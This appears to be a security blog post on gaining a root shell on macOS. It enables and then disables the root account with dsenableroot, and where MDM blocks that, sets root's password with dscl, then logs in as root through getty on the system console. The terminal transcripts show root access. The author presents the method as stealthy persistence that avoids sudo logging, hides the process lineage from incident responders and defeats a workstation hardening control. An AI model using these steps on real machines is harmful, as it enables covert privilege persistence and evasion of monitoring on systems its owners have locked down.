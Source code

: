 ```yaml
---
author: n0ncetonic
layout: post
title: macOS Serial Console Login
---
```


## Foreword ##
This short post documents a technique for authenticating as `root` on macOS and provides procedures for bypassing the default configuration of macOS which explicitly disables the `root` user. For some added fun—and in keeping with Eric Raymond's *Rule of Diversity*–one of the procedures neuters a common mitigation against re-enabling the `root` user.

> Rule of Diversity
    Developers should design their programs to be flexible and open. This rule aims to make programs flexible, **allowing them to be used in ways other than those their developers intended**.
;)

## The route to root ##
Under a default installation of macOS any administratrative user can trivially enable (and disable) the `root` account via the [`dsenableroot(8)`][1] command.

> DESCRIPTION
     dsenableroot sets the password for the root account if enabling the root user account.  Otherwise, if disable [-d] is chosen, the root account passwords are removed and the root user is disabled.

When enabling the root user via `dsenableroot` you will be prompted for a "root password" but knowing the root password is not a requirement (and by default `root` does not have a password); anything you enter here will be accepted as the password for `root` so long as you don't fat-finger it when prompted to "verify root password".

```
user@blacksunlabs:~ $ dsenableroot
username = user
user password:
root password:
verify root password:

dsenableroot:: ***Successfully enabled root user.
```

**Secret Squirrel Note** It's worth noting here that this was all done without running the `sudo` command which might otherwise raise a red flag on networks where users do not commonly run `sudo` or in cases where solutions such as Centrify have been deployed to trigger session recording when `dzdo`/`sudo` are run. One less data point for incident responders during post-mortem examination of a host.

Likewise it is similarly easy to disable the root user, allowing administrators to disable the root user after concluding its use.

```
user@blacksunlabs:~ $ dsenableroot -d
username = user
user password:

dsenableroot:: ***Successfully disabled root user.
```

### MDM: A protection ###
It is becoming more and more common to restrict enabling `root` for end-users on managed workstations. As most end-users have no need for explicitly logging in as `root`, this is considered good security hygiene.

In these situations, attempting to enable `root` via `dsenableroot` will produce an error such as this:

```
user@blacksunlabs:~ $ dsenableroot
username = user
user password:
root password:
verify root password:

dsenableroot:: ***Failed to enable root user.
```

We will address the case of hardened workstations near the conclusion of this post. 

## The not so secret life of `getty`  ##

**History Lesson**
If you've had the pleasure of contracting tinnitus as a result of prolonged employment in a NOC, you are probably all too familiar with [`getty(8)`][2]. You've probably also made Null Modem cables out of speaker wire in a pinch. 

For those with limited familiarity with `getty`, don't worry. In a nutshell, `getty` is in charge of initializing a tty terminal, prompting for user credentials, and passing those credentials over to [`login(1)`][3] to handle the heavy lifting. More specifically, it allows system consoles, psuedo-terminals, or terminals to login to a local system over a non-graphical interface.

### A link to the past ###
In *much* older versions of macOS—think Mac OS X Jaguar and similar—it was possible to get access to the system console login by [entering ">console" as a username][4] on the graphical login screen. This functionality has long-since been removed but it got me wondering about the system console on modern macOS incarnations.

## PoC||GTFO ##
Now that the useful content of this post has been padded with enough background info to not fit in a tweet or two, let's get to the good bits.

The procedure on default or non-hardened workstations is quite simple: 
- `dsenableroot` to set a root password
- `dsenableroot -d` to disable the root account. It really shouldn't be enabled and upon cursory glance the environment mimicks a default system
- `/usr/libexec/getty console` to drop us into a system console login prompt. 

Once at a system console login prompt simply enter "root" as your login and when prompted, provide the password you set using `dsenableroot`.

```
user@blacksunlabs:~ $ dsenableroot
username = user
user password:
root password:
verify root password:

dsenableroot:: ***Successfully enabled root user.
user@blacksunlabs:~ $ dsenableroot -d
username = user
user password:

dsenableroot:: ***Successfully disabled root user.
user@blacksunlabs:~ $ /usr/libexec/getty console
�
D�rwi�BSD�(black�sun�-labs���(tt��005��
�
lo�i�:�root�
            Password:
Last login: Sat Nov 17 12:53:32 on ttys004
blacksunlabs:~ root# id -a
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),701(com.apple.sharepoint.group.1),401(com.apple.access_remote_ae),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
blacksunlabs:~ root# exit
logout
```

There you go. Despite `root` being disabled by Directory Services, logging in via a serial connection such as the system console happily ignores Directory Services and presents us with a fully functional tty and shell. An added bonus is that we did not have to invoke `sudo`—or even be in the sudoers file 😉—and there is no cascading process tree connecting our root shell to the original user.

### Remember Churchill ###
> Don't take 'no' for an answer, never submit to failure. 
    - Winston Churchill

If you encountered that pesky "`dsenableroot:: ***Failed to enable root user.`" message when running `dsenableroot` remember the *Rule of Diversity* and add some Churchill for good measure. If the system says "no", use tools in a way developers hadn't intended and elbow security mitigations in the face for doubting your skills.

As was shown in the previous procedure, the only thing that's actually needed is a known password for the root user. While `dsenableroot` allows us to circumvent sudoers restrictions and cover our tracks a bit, it does still require knowing the password of a user with administrative permissions. 

Taking advantage of the fact that most macOS workstations follow the "single user administrator" model we have a few potential ways for leveraging our administrator user's credentials to set a password for the root user. 

[`dscl(1)`][5] is used here to mimick administrative best practices for managing macOS user credentials via Directory Services, but `sudo passwd root` would work just as well.

```
user@blacksunlabs:~ $ dsenableroot
username = user
user password:
root password:
verify root password:

dsenableroot:: ***Failed to enable root user.
user@blacksunlabs:~ $ sudo /usr/bin/dscl . -passwd /Users/root
Password:
New Password:
01:57:11 user@blacksunlabs:~ $ /usr/libexec/getty console
�
D�rwi�BSD�(black�sun�-labs���(tt��005��
�
lo�i�:�root�
            Password:
trogers-ltm:~ root# id -a
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),701(com.apple.sharepoint.group.1),401(com.apple.access_remote_ae),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
trogers-ltm:~ root# logout
```

From "Go To Hell!" to "Yo! Root Shell!" No sadfeels bourbon today, you just earned celebratory bourbon!
****

## Closing ##
Honestly I'm just glad I finally got around to writing this up. I had a need for a sneaky means of elevated persistence on a system and this idea occurred to me but as is common due to the mercurial nature of my work, the idea got shelved and priorities shifted constantly, and I never found myself in a situation formally investigate and document this technique.

Also, before i see the tweets, yes, it is possible to provide the `-u` admin username, `-p` admin password, and `-r` rootpassword as flags to `dsenableroot`, I personally prefer to be prompted interactively for these bits of information to avoid accidentally writing sensitive information to history files.

[1]:https://ss64.com/osx/dsenableroot.html
[2]:https://www.freebsd.org/cgi/man.cgi?query=getty&sektion=8&manpath=freebsd-release-ports
[3]:https://www.freebsd.org/cgi/man.cgi?query=login&sektion=1&apropos=0&manpath=FreeBSD+11.2-RELEASE+and+Ports
[4]:https://hints.macworld.com/article.php?story=20020318020806482
[5]:https://ss64.com/osx/dscl.html
